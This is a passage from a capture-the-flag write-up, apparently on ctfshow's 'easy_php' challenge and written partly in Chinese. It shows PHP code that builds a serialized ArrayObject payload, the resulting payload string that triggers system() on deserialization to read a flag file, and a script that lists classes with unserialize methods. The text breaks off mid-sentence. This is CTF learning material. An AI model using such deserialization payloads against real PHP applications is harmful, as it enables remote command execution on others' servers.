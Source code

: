 ```php
        system($this->ctfshow);
    }

}

$ctfshowobj = new ctfshow();
$ctfshowobj->ctfshow="cat /f1agaaa";
$arr = array('wuwumonster' => $ctfshowobj);
$arrayobj = new ArrayObject($arr);
$ser = serialize($arrayobj);
echo $ser;

?>


```

payload : `C:11:"ArrayObject":92:{x:i:0;a:1:{s:11:"wuwumonster";O:7:"ctfshow":1:{s:7:"ctfshow";s:12:"cat /f1agaaa";}};m:a:0:{}}`

![](attachments/Pasted%20image%2020230403062145.png)
#### 测试
[愚人杯3rd [easy_php] (yuque.com)](https://www.yuque.com/boogipop/tdotcs/hobe2yqmb3kgy1l8?singleDoc#%20%E3%80%8A%E6%84%9A%E4%BA%BA%E6%9D%AF3rd%20[easy_php]%E3%80%8B)
师傅的脚本跑出来其实是比Chatgpt准确和全面的
```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            'unserialize',
        ))) {
            print $class . '::' . $method . "\n";
        }
    }}
```
这里test了一下，可以用的用的有
